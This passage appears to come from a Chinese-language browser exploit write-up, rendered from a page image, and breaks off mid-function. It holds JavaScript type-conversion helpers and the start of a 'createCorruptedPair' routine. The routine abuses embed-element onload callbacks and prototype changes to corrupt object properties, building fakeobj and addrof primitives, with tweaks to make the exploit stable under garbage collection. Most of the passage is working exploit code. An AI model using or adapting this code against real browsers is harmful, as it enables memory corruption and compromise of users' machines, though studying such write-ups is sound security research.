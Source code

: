
漏洞利用过程中需要使用浮点数到 64 位整数的强制转换，实现如下：

```javascript
buf = new ArrayBuffer(8);
f64a = new Float64Array(buf);
u64a = new BigUint64Array(buf);
u32a = new Uint32Array(buf);

function f2u(f) {
	f64a[0] = f;
	return u64a[0];
}

function u2f(u) {
	u64a[0] = u;
	return f64a[0];
}

function low32u(u64) {
	u64a[0] = u64;
	return u32a[0];
}

function high32u(u64) {
	u64a[0] = u64;
	return u32a[1];
}
```

接下来把这几部分代码组合到一起，实现 fakeobj 和 addrof。由于组合到一起后，代码运行时间、消耗的内存都增加了很多，整个利用受到 GC 的影响开始变得不稳定，所以还需要加入一些缓解 GC 的代码，最终代码如下：

```javascript
createCorruptedPair = (proto, value_1, value_2) => {
	setPropertyViaEmbed = (object, value, handler) => {
		const embed = document.createElement('embed');
		embed.onload = handler;
		embed.type = 'text/html';
		Object.setPrototypeOf(proto, embed);
		document.body.appendChild(embed);
		object.corrupted_prop = value;
		embed.remove();
	}

  const object_1 = {
    __proto__: proto
  };
  object_1.regular_prop = 1;


  setPropertyViaEmbed(object_1, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_1.corrupted_prop = value_1;
  });


  const object_2 = {
    __proto__: proto
  };
  object_2.regular_prop = 1;


  setPropertyViaEmbed(object_2, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_2.corrupted_prop = value_1;
```